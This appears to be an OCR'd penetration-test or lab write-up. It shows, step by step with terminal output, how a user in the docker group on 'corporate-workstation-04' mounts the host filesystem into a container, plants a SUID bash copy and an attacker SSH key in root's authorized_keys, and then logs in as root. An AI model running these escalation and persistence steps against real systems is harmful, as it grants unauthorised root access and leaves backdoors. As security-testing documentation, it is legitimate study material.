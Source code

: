 ```

❯ md5sum alpine.docker
881bfa2b18ef1a0befc27988dd346e12  alpine.docker

# ON TARGET MACHINE
richie.cormier@corporate-workstation-04:~$ md5sum alpine.docker
881bfa2b18ef1a0befc27988dd346e12  alpine.docker
```

I ran `docker load` to load the image.
```
richie.cormier@corporate-workstation-04:~$ docker load -i alpine.docker
256f393e029f: Loading layer [==================================================>]  8.607MB/8.607MB
Loaded image: alpine:latest
richie.cormier@corporate-workstation-04:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    706db57fb206   39 hours ago   8.32MB
```

I ran `docker run` to mount the root filesystem and started the container.
```
richie.cormier@corporate-workstation-04:~$ docker run --rm -it -v /:/host alpine /bin/sh
/ #
```

I made a copy of `bash` and set SUID for persistence. Then I added a SSH key for root.
```
/host # cp bin/bash dev/shm/bash; chmod 4777 dev/shm/bash
/host # echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJuy7cXJmQ8/JUAKP4s7v+ifUq9LHNQW2bQHqPuUjw8V' >> root/.ssh/autho
rized_keys
```

Then I successfully logged in as `root`.
```
❯ ssh root@10.9.0.4 -i ../sshkeys/id_ed25519
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 10 Oct 04:52:41 UTC 2025

  System load:  0.0               Processes:                103
  Usage of /:   62.1% of 6.06GB   Users logged in:          0
  Memory usage: 18%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for ens18:   10.9.0.4


Expanded Security Maintenance for Applications is not enabled.

10 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


```